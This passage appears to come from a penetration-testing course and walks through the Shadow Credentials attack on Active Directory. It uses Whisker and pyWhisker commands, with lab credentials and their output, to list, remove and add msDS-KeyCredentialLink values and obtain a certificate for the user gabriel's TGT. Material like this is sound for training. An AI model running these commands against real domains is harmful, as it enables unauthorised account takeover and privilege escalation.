 Now, this PowerShell process has Gabriel's TGT, meaning we can use his privileges.

## Other actions with Whisker

We can use `.\Whisker.exe list /target:gabriel` to list the value of the new credential:

```powershell
PS C:\Tools> .\Whisker.exe list /target:gabriel
[*] Searching for the target account
[*] Target user found: CN=Gabriel,CN=Users,DC=lab,DC=local
[*] Listing deviced for gabriel:
  DeviceID: 462d7a93-f342-a139-96fc-2c750d2f4c89 | Creation Time: 27/04/2024 18:01:17
  DeviceID: 48d97546-cac9-4e92-981b-e89da231f7a8 | Creation Time: 15/02/2024 15:42:55

```

Additionally, we can use the option `remove` to delete a specific value from the `msDS-KeyCredentialLink` attribute or the option `clear` to remove all values.

```powershell
PS C:\Tools> .\Whisker.exe remove /target:gabriel /deviceid:48d97546-cac9-4e92-981b-e89da231f7a8
[*] Searching for the target account
[*] Target user found: CN=Gabriel,CN=Users,DC=lab,DC=local
[*] Updating the msDS-KeyCredentialLink attribute of the target object
[+] Found value to remove
[+] Updated the msDS-KeyCredentialLink attribute of the target object

```

**Note:** Clearing the `msDS-KeyCredentialLink` attribute of accounts configured for passwordless authentication will cause disruptions.

## Attacking Shadow Credentials from Linux

We will use [pyWhisker](https://github.com/ShutdownRepo/pywhisker) to abuse the Shadow Credentials from Linux, a Python equivalent of the original `Whisker`. It is based on `Impacket` and a Python equivalent of [DSInternals](https://github.com/MichaelGrafnetter/DSInternals) called [PyDSInternals](https://github.com/p0dalirius/pydsinternals). Using this tool along with [Dirk-jan's PKINITtools](https://github.com/dirkjanm/PKINITtools) enables complete exploitation from a UNIX-based systems.

```shell
git clone -q https://github.com/ShutdownRepo/pywhisker

```

To use `pywhisker`, we need to provide the credentials of the account we control and have rights over the target account. We can use the option `--target <account>` and the option `--action add` to perform the Shadow Credential attack:

```shell
python3 pywhisker.py -d lab.local -u jeffry -p Music001 --target gabriel --action add
[*] Searching for the target account
[*] Target user found: CN=Gabriel,CN=Users,DC=lab,DC=local
[*] Generating certificate
[*] Certificate generated
[*] Generating KeyCredential
[*] KeyCredential generated with DeviceID: a37a618e-ac85-4053-3519-12bf69744e5b
[*] Updating the msDS-KeyCredentialLink attribute of gabriel
[+] Updated the msDS-KeyCredentialLink attribute of the target object
[+] Saved PFX (#PKCS12) certificate & key at path: BX4EWk8m.pfx
[*] Must be used with password: KQAx5lHP3h9TtzNly2Us
[*] A TGT can now be obtained with https://github.com/dirkjanm/PKINITtools

```


[WEB01]: PS C:\Users\Administrator.INLANEFREIGHT\Documents> whoami;hostname